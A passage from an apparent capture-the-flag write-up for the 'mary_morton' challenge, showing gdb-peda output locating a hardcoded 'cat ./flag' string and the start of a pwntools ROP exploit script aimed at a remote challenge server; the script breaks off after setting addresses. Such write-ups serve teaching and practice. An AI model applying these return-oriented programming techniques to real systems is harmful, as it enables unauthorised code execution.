 So we have a ROPgadget, and the address of system which we can call. The only thing left to get is the argument for the `system` function. Originally when I was trying to solve it, I tried to get a pointer to `"/bin/sh"` and use that as an argument, until I found a much easier way using gdb:

First set a breakpoint for anywhere in the program, then encounter it

```
gdb-peda$ b *0x400826
Breakpoint 1 at 0x400826
gdb-peda$ r
Starting program: /Hackery/asis/mary/mary_morton
```

then once you reach the breakpoint:

```
gdb-peda$ find cat
Searching for 'cat' in: None ranges
Found 84 results, display max 84 items:
mary_morton : 0x400b30 ("cat ./flag")
mary_morton : 0x600b30 ("cat ./flag")
       libc : 0x7ffff7a21115 --> 0x6b68635f746163 ('cat_chk')
       libc : 0x7ffff7a21132 --> 0x73746567746163 ('catgets')
       libc : 0x7ffff7a21f95 --> 0x705f6465746163 ('cated_p')
       libc : 0x7ffff7a22107 --> 0x6b68635f746163 ('cat_chk')
       libc : 0x7ffff7a22563 --> 0x7272647800746163 ('cat')
       libc : 0x7ffff7a228cb --> 0x705f5f0065746163 ('cate')
       libc : 0x7ffff7a2293d --> 0x676f6c61746163 ('catalog')
       libc : 0x7ffff7a22aa9 --> 0x6b68635f746163 ('cat_chk')
       libc : 0x7ffff7a22b38 --> 0x6d00343665746163 ('cate64')
       libc : 0x7ffff7a22b78 ("catclose")
       libc : 0x7ffff7a22dc9 --> 0x4f495f0065746163 ('cate')
       libc : 0x7ffff7a231f2 --> 0x73626f5f00746163 ('cat')
       libc : 0x7ffff7a23247 --> 0x7465670065746163 ('cate')
       libc : 0x7ffff7a23687 --> 0x67006e6f69746163 ('cation')
       libc : 0x7ffff7a2396c --> 0x6b68635f746163 ('cat_chk')
       libc : 0x7ffff7a23faa ("cat_cntr")
       libc : 0x7ffff7a24292 ("cate_rtsig")
       libc : 0x7ffff7a2445b --> 0x746e6c6300746163 ('cat')
       libc : 0x7ffff7a24615 ("cation_short_name")
       libc : 0x7ffff7a247c9 --> 0x5f00343665746163 ('cate64')
       libc : 0x7ffff7a24959 --> 0x6365786500746163 ('cat')
       libc : 0x7ffff7a24e87 --> 0x6e65706f746163 ('catopen')
--More--(25/85)q
gdb-peda$ x/s 0x400b30
0x400b30:    "cat ./flag"
```

We can see here that the binary has the string `"cat ./flag"` hardcoded at `0x400b30`. We should be able to use that as the argument for system. With all of those things, we can write the python exploit:

```
#First import pwntools
from pwn import *

#Establish the remote connection
target = remote('146.185.132.36', 19153)

#Establish the address for the ROP chain
gadget0 = 0x400ab3
cat_adr = 0x400b30
sys_adr = 0x4006a0

#Recieve and print out the opening text
print target.recvuntil("Exit the battle")

```